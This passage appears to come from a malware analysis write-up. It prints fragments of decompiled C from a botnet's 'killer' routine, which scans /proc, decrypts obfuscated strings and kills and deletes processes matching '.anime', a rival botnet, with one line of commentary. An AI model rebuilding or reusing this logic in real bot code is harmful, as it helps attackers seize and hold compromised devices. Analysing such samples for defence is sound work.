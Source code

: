 ```c
    tmp2 = mw_open(realpath,0);
    if (tmp2 != -1) {
      mw_close();
      mw_encrypt_with_key(0xd);
      mw_encrypt_with_key(0xe);
      iVar4 = mw_readlink(realpath,killer_realpath);
...
```

```c
void mw_init_killer(void)

{
...
      pid_threshold = 400;
      iVar3 = 0;
      while( true ) {
        mw_decrypt_with_key(0xd);
        uVar2 = mw_get_table_entry(0xd,0); // /proc
        dir = mw_opendir(uVar2);
        if (dir == (DIR *)0x0) break;
        mw_encrypt_with_key(0xd);
LAB_0000e340:
        file = mw_readdir(dir);
        if (file != (dirent *)0x0) {
          while ((byte)file->d_name[0] - 0x30 < 10) {
            pid_str = file->d_name;
            pid = mw_atoi(pid_str);
            iVar3 = iVar3 + 1;
            if (pid_threshold < pid) {
              iVar1 = mw_time(0);
              mw_decrypt_with_key(0xd); // /proc
              mw_decrypt_with_key(0xe); // /exe
              uVar2 = mw_get_table_entry(0xd,0);
              iVar4 = mw_strcpy(exe_path,uVar2);
              iVar5 = mw_strcpy(exe_path + iVar4,pid_str);
              uVar2 = mw_get_table_entry(0xe,0);
              mw_strcpy(exe_path + iVar4 + iVar5,uVar2);
...
              mw_encrypt_with_key(0xd);
              mw_encrypt_with_key(0xe);
              iVar4 = mw_readlink(exe_path,realpath,0xfff);
...
```


It searches for process names containing `.anime` which is a competitor botnet and tries to kill them.

```c
void mw_init_killer(void)

{
...
              iVar4 = mw_readlink(exe_path,realpath,0xfff);
              pid_threshold = pid;
              if (iVar4 != -1) {
                realpath[iVar4] = 0;
                mw_decrypt_with_key(0x1e); // .anime
                uVar2 = mw_get_table_entry(0x1e,0);
                iVar4 = mw_strcasestr(realpath,iVar4 + -1,uVar2);
                if (iVar4 != -1) {
                  mw_unlink(realpath);
                  mw_kill(pid,9);
                }
```